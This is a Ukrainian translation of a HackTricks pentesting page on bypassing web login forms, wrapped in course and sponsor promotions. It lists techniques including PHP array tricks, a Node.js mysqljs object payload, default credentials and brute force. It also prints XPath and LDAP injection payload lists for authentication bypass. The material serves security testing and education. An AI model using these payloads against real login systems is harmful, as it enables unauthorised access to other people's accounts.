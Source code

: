 # Login Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) є найважливішою подією в сфері кібербезпеки в **Іспанії** та однією з найважливіших в **Європі**. З **метою популяризації технічних знань**, цей конгрес є гарячою точкою зустрічі для професіоналів у сфері технологій та кібербезпеки в усіх дисциплінах.

{% embed url="https://www.rootedcon.com/" %}

## **Обхід звичайного входу**

Якщо ви знайшли сторінку входу, тут ви можете знайти кілька технік, щоб спробувати обійти її:

* Перевірте **коментарі** на сторінці (прокрутіть вниз і вправо?)
* Перевірте, чи можете ви **безпосередньо отримати доступ до обмежених сторінок**
* Перевірте, щоб **не надсилати параметри** (не надсилайте жоден або лише 1)
* Перевірте **помилку порівняння PHP:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Змініть тип вмісту на json** і надішліть значення json (включаючи bool true)
* Якщо ви отримали відповідь, що POST не підтримується, ви можете спробувати надіслати **JSON в тілі, але з GET запитом** з `Content-Type: application/json`
* Перевірте потенційну помилку парсингу nodejs (прочитайте [**це**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs перетворить цей payload на запит, подібний до наступного: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` що робить біт пароля завжди істинним.
* Якщо ви можете надіслати об'єкт JSON, ви можете надіслати `"password":{"password": 1}` для обходу входу.
* Пам'ятайте, що для обходу цього входу вам все ще потрібно **знати та надіслати дійсне ім'я користувача**.
* **Додавання `"stringifyObjects":true`** опції при виклику `mysql.createConnection` в кінцевому підсумку **заблокує всі несподівані поведінки, коли `Object` передається** в параметрі.
* Перевірте облікові дані:
* [**Типові облікові дані**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) технології/платформи, що використовується
* **Звичайні комбінації** (root, admin, password, назва технології, стандартний користувач з одним з цих паролів).
* Створіть словник, використовуючи **Cewl**, **додайте** **стандартне** ім'я користувача та пароль (якщо є) і спробуйте зламати його, використовуючи всі слова як **імена користувачів та паролі**
* **Брутфорс** з використанням більшого **словника (**[**Брутфорс**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection обходу аутентифікації

[Тут ви можете знайти кілька трюків для обходу входу через **SQL ін'єкції**](../sql-injection/#authentication-bypass).

На наступній сторінці ви можете знайти **кастомний список для спроби обійти вхід** через SQL ін'єкції:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### Обхід аутентифікації без SQL ін'єкції

[Тут ви можете знайти кілька трюків для обходу входу через **No SQL ін'єкції**](../nosql-injection.md#basic-authentication-bypass)**.**

Оскільки NoSQL ін'єкції вимагають зміни значення параметрів, вам потрібно буде протестувати їх вручну.

### Обхід аутентифікації через XPath Injection

[Тут ви можете знайти кілька трюків для обходу входу через **XPath Injection.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Тут ви можете знайти кілька трюків для обходу входу через **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Запам'ятати мене

Якщо на сторінці є функціонал "**Запам'ятати мене**", перевірте, як він реалізований, і подивіться, чи можете ви зловживати ним, щоб **взяти під контроль інші облікові записи**.

### Перенаправлення

Сторінки зазвичай перенаправляють користувачів після входу, перевірте, чи можете ви змінити це перенаправлення, щоб викликати [**Відкрите перенаправлення**](../open-redirect.md). Можливо, ви зможете вкрасти деяку інформацію (коди, куки...), якщо перенаправите користувача на свій веб-сайт.

## Інші перевірки

* Перевірте, чи можете ви **перерахувати імена користувачів**, зловживаючи функціоналом входу.
* Перевірте, чи **автозаповнення** активне у формах пароля/**чутливої** інформації **введення:** `<input autocomplete="false">`

## Автоматичні інструменти
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) є найважливішою подією в галузі кібербезпеки в **Іспанії** та однією з найважливіших в **Європі**. З **метою просування технічних знань**, цей конгрес є гарячою точкою зустрічі для професіоналів у сфері технологій та кібербезпеки в усіх дисциплінах.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
